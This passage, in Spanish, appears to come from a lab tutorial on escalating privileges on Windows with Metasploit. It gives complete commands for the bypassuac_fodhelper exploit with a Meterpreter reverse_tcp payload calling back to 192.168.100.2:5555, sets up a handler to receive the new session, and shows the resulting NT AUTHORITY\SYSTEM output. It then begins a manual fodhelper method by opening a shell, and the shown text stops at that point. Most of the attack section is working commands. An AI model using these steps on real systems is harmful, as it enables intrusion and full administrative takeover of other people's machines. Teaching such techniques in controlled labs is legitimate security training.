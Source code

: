 - **Ejecutan con privilegios elevados**.
- **Cargan claves del registro editables por usuarios normales**.
- Puedes modificar ese comportamiento para ejecutar tu propio código.

---

#### 🛠️ Paso 3: Usar módulo UAC Bypass de Metasploit

En Kali:

1. En Meterpreter, ejecuta:

```bash
background
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.2
set LPORT 5555
run
```

Este exploit:

- Usa `fodhelper.exe`.
- Modifica una clave de registro.
- Lanza un nuevo payload como administrador.

En otra pestaña, prepárate para recibir la nueva sesión (puerto 5555):

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.2
set LPORT 5555
run
```

Cuando se abra la sesión:

```bash
getuid
```

Debes ver algo como:

```
Server username: NT AUTHORITY\SYSTEM
```

✅ ¡Has escalado privilegios con éxito!

---

#### 🧪 Paso 4: Alternativa manual usando fodhelper.exe

Desde tu primera sesión de Meterpreter (como usuario), abre una shell:

```bash
shell
```
